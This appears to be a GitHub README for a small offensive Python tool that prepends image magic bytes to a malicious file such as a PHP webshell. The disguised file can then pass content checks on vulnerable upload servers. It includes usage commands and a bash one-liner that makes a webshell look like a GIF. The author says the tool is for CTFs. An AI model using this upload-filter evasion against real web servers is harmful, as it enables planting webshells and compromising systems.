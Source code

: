 # magic bitten file

## Purpose

The python script **`magic_bitten_file.py`** lets you insert the magic bytes of certain file types of your choosing to be inserted at the beginning of a malicious file (such as a webshell). The file then can be uploaded on a vulnerable web server bypassing any file content checks and executed.

## Usage

This python script does not require anything outside the Python Standard Libray. So all you need to do is execute it.

```console
$ # create a php file
$ printf "%s\n" "<?php phpinfo(); ?>" > phpcode.php

$ # check what this file is detected as by linux file util
$ file code.php
code.php: PHP script, ASCII text

$ # let's make this file a gif file
$ python3 magic_bitten_file.py -f gif code.php

$ # let's now see what the linux file util detects this file as
$ file code.php
code.php: GIF image data, version 87a, 16188 x 26736
```

## Alternatives

Instead of using this script you can take any sample file of your choice from the internet or from your local filesystem and append the code to the end of it. But I found this a bit inconvenient when doing CTFs. With this tool the process is just running a python script.

Here's a bash/zsh one liner to make a php file look like a gif file:

```bash
echo -n -e '\x47\x49\x46\x38\x37\x61' | cat - /path/to/php-webshell.php > image.gif
```

---

## Donations

If you think my work helped you in some way saving you time and effort, I am happy to receive any amount of donation. However, the code in this repo is completely free.

Bitcoin (BTC): `bc1qzlhpm94vtk2ht67etdutzcy2g5an5v6g36tp0m`
